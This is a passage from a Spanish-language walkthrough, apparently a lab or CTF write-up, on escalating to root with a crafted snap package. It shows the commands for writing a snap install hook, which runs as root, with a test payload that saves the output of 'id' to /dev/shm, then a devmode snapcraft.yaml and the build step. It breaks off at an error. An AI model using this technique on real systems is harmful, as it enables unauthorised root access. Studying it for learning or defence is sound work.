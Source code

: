 ```bash
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install
```

> Additionally, snaps have something called "hooks". One such hook, the "install hook" is run at the time of snap installation and can be a simple shell script.
>> [https://initblog.com/2019/dirty-sock/](https://initblog.com/2019/dirty-sock/).

O sea que cuando estemos instalando el paquete, invocara el hook (:

<span style="color: red;">5. </span>Escribimos nuestro payload, el `"EOF"` simplemente le indica a `cat` cuando terminar de escribir el archivo `install`.

**Este y el paso 6 se pueden hacer simplemente abriendo el archivo con `nano`, `vim`, `vi`, etc. Pues por si algo**.

Inicialmente probaré a guardar el output del `id` del usuario que ejecuta la instalación, que si todo va bien debería ser **root** (: Esto como prueba inicial...

```bash
cat > snap/hooks/install << "EOF"
#!/bin/bash

id > /dev/shm/.id.txt
EOF
```

<span style="color: red;">6. </span>Configuramos el archivo `snapcraft.yaml`, la estructura de nuestro paquete.

```bash
cat > snap/snapcraft.yaml << "EOF"
name: dirty-sock
version: '0.1' 
summary: Como esssssssssssssssss
description: |
    Como seriaaaaaaaaaaaaa, como nos toqueeeeeeeeeee!

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
EOF
```

<span style="color: red;">7. </span>Construimos finalmente el paquete.

```bash
snapcraft
```

Ahora que sabemos los pasos, procedamos a ejecutarlos...

Ejecutando el último paso nos da un error:
